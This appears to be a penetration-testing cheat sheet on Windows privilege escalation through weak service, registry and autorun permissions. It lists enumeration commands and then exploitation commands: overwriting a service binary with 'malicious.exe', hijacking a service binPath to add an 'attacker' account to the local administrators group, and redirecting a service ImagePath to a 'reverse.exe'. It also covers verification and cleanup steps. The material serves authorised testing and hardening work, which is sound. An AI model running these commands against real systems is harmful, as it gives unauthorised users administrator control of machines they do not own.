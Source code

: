 ### Summary

Weak permissions in the file system, services, registry, or autorun entries can be abused to escalate privileges. These are common in third-party software, misconfigured systems, or legacy setups. This technique involves finding services or executables that non-admin users can modify, then replacing or reconfiguring them to execute code as SYSTEM or Admin.
### Conditions

- Low-privileged access to the target system.   
- A service binary or configuration is modifiable by the current user.
- The misconfigured service runs as SYSTEM or an Admin-equivalent account.
### Enumeration

**Find modifiable binaries or services with SharpUp**

```powershell
.\SharpUp.exe audit
```

**Check permissions with `icacls`**

```powershell
icacls "C:\Path\To\Service.exe"
```

**Check service control permissions with AccessChk**

```cmd
accesschk.exe /accepteula -quvcw ServiceName
```

**Check registry permissions for services**

```cmd
accesschk.exe /accepteula <user> -kvuqsw hklm\System\CurrentControlSet\services
```

**Check autorun entries**

```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
```
### Exploitation

**Service Binary Replacement**

```cmd
copy /Y malicious.exe "C:\Program Files (x86)\Target\service.exe"
sc start ServiceName
```

**Service BinPath Hijack**

```cmd
sc config ServiceName binpath= "cmd /c net localgroup administrators attacker /add"
sc stop ServiceName
sc start ServiceName
```

**Registry ImagePath Hijack**

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\VulnerableService" -Name "ImagePath" -Value "C:\attacker\reverse.exe"
```

**Abuse modifiable autorun binaries or registry keys**

- Replace binary at `C:\Users\victim\AppData\...`    
- Wait for reboot or user login
### Post-Exploitation

**Verify local admin**

```cmd
net localgroup administrators
```

**Clean up by reverting binpath**

```cmd
sc config ServiceName binpath= "C:\Original\Path\service.exe"
sc start ServiceName
```

# Tags
> #Windows-Post-Exploitation #Windows-Privesc #Weak_service_permissions